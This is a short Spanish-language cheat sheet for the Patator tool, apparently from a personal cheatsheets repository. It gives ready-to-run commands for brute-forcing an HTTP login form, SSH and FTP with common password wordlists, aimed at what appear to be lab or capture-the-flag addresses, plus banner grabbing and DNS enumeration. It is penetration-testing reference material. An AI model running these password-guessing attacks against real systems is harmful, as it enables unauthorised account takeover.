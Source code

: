 # Patator Cheat Sheet

#### Fuerza Bruta a HTTP
```
patator http_fuzz url="http//10.10.10.43/deparment/login.php" method=POST body='username=admin&password=FILE0' 0=/usr/share/wordlist/rockyou.txt -x ignore:fgrep="Invalid Password\!"
```

#### Fuerza Bruta a SSH
```
patator ssh_login host=10.10.10.76 port=22022 user=FILE0 0=/root/Documentos/HTB/Sunday/usuarios.txt password=FILE1 1=/root/SecList/Passwords/probable-v2-top1575.txt -x ignore:fgrep='failed'
```

#### Fuerza Bruta a FTP
```
patator ftp_login host=192.168.2.6 user=FILE0 0=/usr/share/wordlists/rockyou.txt password=FILE1 1=/usr/share/wordlists/rockyou.txt -x ignore:fgrep='incorrect' -x ignore,reset,retry:code=500
```

#### Banner Grabbing
```
patator tcp_fuzz host=<Target> port=<port>
```

#### Consulta de Servidores DNS
```
patator dns_forward name=FILE0.domain.com 0=lista.txt -x ignore:code=3
```

---
:::info
[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)
:::